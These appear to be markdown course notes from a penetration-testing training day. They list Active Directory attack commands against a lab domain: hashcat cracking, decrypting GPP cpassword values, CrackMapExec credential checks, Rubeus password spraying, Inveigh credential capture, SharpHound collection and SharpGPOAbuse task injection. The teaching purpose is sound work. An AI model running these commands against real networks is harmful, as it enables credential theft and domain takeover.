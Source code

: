 []: # Day 2 notes from Light Pentest LITE (Live Interactive Training Experience)
[]: # More information at https://7minsec.com/services/training/#lplite

# Cracking hashes: part 2
Cracking hashes - basic syntax

```
hashcat name-of-hash-file-to-crack.txt wordlist.txt
```

# Sniping cleartext creds from GPOs
Finding vulnerable GPOs with decryptable "cpassword" values:
```
findstr /S /I cpassword \\tangent.town\sysvol\tangent.town\policies\*.xml
```

Using *Get-GPPPassword.ps1* to find and decrypt the passwords:
```
Import-Module .\Get-GPPPassword.ps1 
Get-GPPPassword.ps1
```
# CrackMapExec prep
Getting registry "tweaked" to make CME more pretty:
```
reg.exe add HKCU\Console /f /v VirtualTerminalLevel /t reg_dword /d 1
``` 
# CrackMapExec: validating domain credentials
Basic CME syntax:
```
python cme smb IP.OF.A.DOMAINCONTROLLER -u USERNAME -p PASSWORD
```

# Password spraying with Rubeus
Basic spraying:
```
Rubeus.exe brute /password:PASSWORD-YOU-WANNA-SPRAY-WITH /outfile:output.txt
```
Example:
```
Rubeus.exe brute /password:Summer2021 /outfile:summer2021.txt
```

BRUTE-spraying a specific user with a list of passwords (careful!) and saving any valid creds to a file:
```
Rubeus.exe brute /user:USER-YOU-WANT-TO-SPRAY /password:TEXT-FILE-FULL-OF-PASSWORDS.txt /outfile:output.txt
```

# Capturing credentials with Inveigh
Run as an admin prompt:
```
Inveigh.exe -nbns y -llmnr y -mdns y
```

# BloodHound: setting up Neo4j
Run as an admin prompt:
```
neo4j console
```

# SharpHound: data collection
```
sharphound -c all -d tangent.town
```

# Exploiting Group Policy Objects
A sample using [SharpGPOAbuse](https://github.com/FSecureLABS/SharpGPOAbuse):

```
Exploiting Group Policy Objects
```
SharpGPOAbuse.exe --addcomputertask --taskname "NAME OF YOUR TASK" --author "NAME OF AUTHOR" --command "YOUR COMMAND" --arguments "YOUR ARGUMENTS" --gponame "NAME OF THE VULNERABLE GPO" 
```